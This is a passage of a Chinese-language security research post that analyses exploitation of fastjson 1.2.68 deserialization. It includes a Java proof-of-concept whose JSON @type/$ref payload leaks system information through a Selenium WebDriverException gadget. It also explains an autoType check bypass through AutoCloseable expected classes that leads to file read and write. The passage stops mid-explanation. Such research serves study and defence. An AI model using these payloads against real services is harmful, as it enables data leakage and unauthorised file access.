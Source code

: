```java
public class selenium_ref_1_2_68 {
    public static void main(String[] args) throws Exception
    {
        String payload = "{\"x\":\n" +
                "  {\"@type\":\"java.lang.Exception\",\n" +
                "  \"@type\":\"org.openqa.selenium.WebDriverException\"},\n" +
                " \"y\":{\"$ref\":\"$x.systemInformation\"},\n" +
                " \"z\":{\"$ref\":\"$x.message\"}\n" +
                "}";
        JSONObject json = (JSONObject) JSON.parse(payload);
        System.out.println(json.getString("y"));
        System.out.println(json.getString("z"));
    }
}
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241024174412073.png)



## JavaBeanDeserializer

ThrowableDeserializer#deserialze调用的checkAutoType中向期望类传参是固定的，为Throwable.class

JavaBeanDeserializer#deserialze的expectClass参数是用户可控的

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241024213759114.png)

其中type直接来自deserialze参数

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241024214131683.png)

这里期望类基本都会选择AutoCloseable，原因有以下几点：

* AutoCloseable不在黑名单内，且在mappings缓存表内

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241025113509136.png)

* 用到AutoCloseable的很多，其中包括了输入ObjectInput和输出ObjectOutput接口

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241025113643858.png)

于是出现了输入流转输出流写文件，输出流转输入流读文件的骚操作

很明显，AutoCloseable子类是返回JavaBeanDeserializer的，所以流程和前面分析ThrowableDeserializer的一样

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241025114206866.png)

问题转向了，怎么找到AutoCloseable的子类来进行输入流和输出流的互转？

我们知道fastjson对方法的调用还是要落实到setter、getter和构造方法上的

https://godownio.github.io/2024/10/25/fastjson-jackson-da-qu-fen/

浅蓝师傅给出了写文件的利用条件：
